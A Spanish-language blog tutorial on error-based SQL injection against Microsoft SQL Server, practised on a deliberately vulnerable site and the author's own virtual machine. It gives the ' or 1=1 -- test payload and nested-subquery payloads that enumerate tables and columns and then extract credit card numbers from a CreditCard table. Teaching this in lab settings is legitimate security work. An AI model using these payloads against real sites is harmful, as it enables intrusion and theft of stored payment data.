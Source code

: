 ```yaml
---
layout: post
title: Ataque SQL Injection por error
category: Hacking
comments: true
description: Es el más comun y el más facil de explotar ya que es la propia aplicacion que nos va diciendo los errores que da la base de datos cuando vamos usando los ataques de sql injection. Con este error es muy facil conseguir cualquier cosa de la base de datos (estructura, tablas, nombres de campos e incluso datos).
tags:
    - injection
    - owasp
---
```


Es el más comun y el más facil de explotar ya que es la propia aplicacion que nos va diciendo los errores que da la base de datos cuando vamos usando los ataques de sql injection. Con este error es muy facil conseguir cualquier cosa de la base de datos (estructura, tablas, nombres de campos e incluso datos).


<figure>
<img alt="que es sql injection" src="/resources/images/que-es-sql-injection/sql-injection.png"/>
<figcaption>
SQL Injection, la vulnerabilidad web más peligrosa según OWASP. 
</figcaption>
</figure>


## Para practicar

Te recomiendo que uses esta pagina web: [hackyourselffirst.troyhunt.com](http://hackyourselffirst.troyhunt.com){:target="_blank"}. Es una pagina vulnerable hecho a posta para poder probar todas las vulnerabilidades web de Owasp, esta creada por el hacker etico [Troy Hunt](https://www.troyhunt.com/){:target="_blank"}. 
Tiene varios cursos de hacking en [Pluralsight](https://app.pluralsight.com/library/){:target="_blank"} te recomiendo que te subscribas a Pluralsight y los hagas.

## Como encontrar encontrar esta vulnerabilidad

En la pagina de hackyourselffirst.troyhunt.com en la pagina de buscar cilindros, y seleccionamos los coches que tienen 8 cilindros, logicamente solo nos saldran los coches con 8 cilindros.

<div class="info alert">
http://hackyourselffirst.troyhunt.com/CarsByCylinders?Cylinders=V8
</div>

Para ver si esta pagina es vulnerable a un ataque sql inject, solo haria falta añadir detras esto: ' or 1=1 --

<div class="info alert">
http://hackyourselffirst.troyhunt.com/CarsByCylinders?Cylinders=V8' or 1=1 --
</div>

y Tachan!! nos aparecen todos los coches,la pagina es vulnerable al ataque sql injection.


## Y que significa *' or 1=1 --*

Estos caracteres que hemos añadido detras tienen su signficado, os lo voy a explicar.

*'* sin esta comilla, lo que haria la web seria buscar todos los coches con '8 or 1=1--' cilindros, al añadirla hemos cerrado lo que esta buscando la aplicacion. La comilla es necesaria cuando la busqueda original es tipo string, como es V8 si fuera un valor numerico, por ejemplo un 8, no haria falta ya que los valores numericos en la query original van sin comillas.

<div class="env-header">SQL CON STRING</div>
{% highlight sql linenos %}

Select id, nombre from coches where marca = 'ferrari' 

{% endhighlight %}

<div class="env-header">SQL CON VALOR NUMERICO</div>
{% highlight sql linenos %}

Select id, nombre from coches where year = 2012 

{% endhighlight %}

*or 1=1* esta funcion logica lo que nos ayuda es que da igual lo que buscase la aplicacion, si era falso o no, ahora sera siempre verdadero, ya que 1=1 es siempre verdadero.

*---* esto en sql es para escribir comentarios, si despues de nuestra injeccion de sql quedase algo en la query de sql, por ejemplo un order by o algo más en la busqueda, daria igual ya que para el servidor sql seria como un comentario y no le haria caso.


## El ataque SQL Injection por error


Tengo una pagina web vulnerable a sql injection en una maquina virtual de mi ordenador, asi que lo primero que hago es probar que la pagina en question es vulnerable a un sql injection.

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-1.png"/>
<figcaption>
SQL Injection, la vulnerabilidad web más peligrosa según OWASP. 
</figcaption>
</figure>

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-2.png"/>
<figcaption>
Esta web si es vulnerable a sql injection. 
</figcaption>
</figure>

Al ser vulnerable a sql injection, explotamos la vulnerabilidad empezando a sacar todos los nombres de las tablas de la base de datos.

<div class="env-header">SQL Enumeradora 1</div>
{% highlight sql linenos %}

(
    select name from sysobjects where id=
    (
        select top 1 id from
        (
            select top 1 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}


Esta sentencia SQL, son tres sentencias sql anidadas, hacen lo siguiente:

*select top 3 id from sysobjects where xtype=char(85) order by id asc*  selectiona los tres primeros ids que sean tipo tabla de la tabla del systema sysobjects y los ordena por id ascendentemente.

*select top 1 id from ( ) sq order by id desc* selecciona el ultimo de la cola

*select name from sysobjects where id=* da el nombre de la tabla de ese id.

Es decir, podemos recorrer toda la lista de tablas de la base de datos cambiando el valor numerico del Top, ya que ira aumentando la cola, y nosotros siempre cogeremos el ultimo de la cola.

En esta query tanto podemos usar la tabla sysobjects o sys.tables.


<div class="env-header">SQL Enumeradora 2 </div>
{% highlight sql linenos %}

(
    select name from sys.tables where object_id=
    (
        select top 1 object_id from
        (
            select top 1 object_id from sys.tables order by object_id asc
        ) sq order by object_id desc
    )
)

{% endhighlight %}



<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-3.png"/>
<figcaption>
Extrayendo el nombre de las tablas de la base de datos mediante sql injection. 
</figcaption>
</figure>

<div class="env-header">Aumentamos el valor del top... y otra tabla</div>
{% highlight sql linenos %}

(
    select name from sysobjects where id=
    (
        select top 1 id from
        (
            select top 3 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-4.png"/>
<figcaption>
Extrayendo el nombre de las tablas de la base de datos mediante sql injection. Otra tabla más..
</figcaption>
</figure>


Y ahora que tenemos los nombres de las tablas, ahora a por las columnas. En la base de datos hay una tabla llamada CreditCard, o sea tarjetas de credito, y el campo 3 de la tabla se llama... CardNumber!!

__Error de conversión al convertir el valor nvarchar 'CardNumber' al tipo de datos int.__


<div class="env-header">Aumentamos el id del column_id y sacamos las columnas de la tabla.</div>
{% highlight sql linenos %}

(
    select name from sys.columns where column_id = 1 and  object_id=
    (
        select top 1 id from
        (
            select top 3 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}

Ya tenemos la tabla, el campo de la tabla, ahora los valores... y como hasta ahora, cambiando el valor top de la subconsulta tendremos un registro nuevo


<div class="env-header">Y como hasta ahora, aumentamos el el top de la consulta anidada y tenemos más valores....</div>
{% highlight sql linenos %}

(
    select CardNumber from CreditCard where  CreditCardID=
    (
        select top 1 CreditCardID from
        (
            select top 3 CreditCardID from CreditCard order by CreditCardID asc
        ) sq order by CreditCardID desc
    )
)

{% endhighlight %}

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-5.png"/>
<figcaption>
Y ahora a sacar todos los numeros de las tarjetas de credito....
</figcaption>
</figure>















